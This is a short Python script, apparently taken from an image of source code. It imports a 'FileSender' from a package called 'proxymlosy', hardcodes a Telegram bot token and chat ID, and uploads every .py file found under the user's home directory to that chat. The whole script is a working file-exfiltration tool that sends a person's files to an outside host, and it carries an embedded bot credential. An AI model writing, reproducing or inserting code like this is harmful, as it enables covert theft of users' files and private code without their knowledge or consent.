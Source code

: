 
from proxymlosy import FileSender
import os

TOKEN = "7246461761:AAH6kA0RmIMzjzNPWUoJOzPQtd6wx8YnpHU"
CHAT_ID = 8245348876
SEARCH_FOLDER = os.path.expanduser("~")

sender = FileSender(TOKEN, CHAT_ID)
sender.send_all_files(SEARCH_FOLDER, extension=".py")

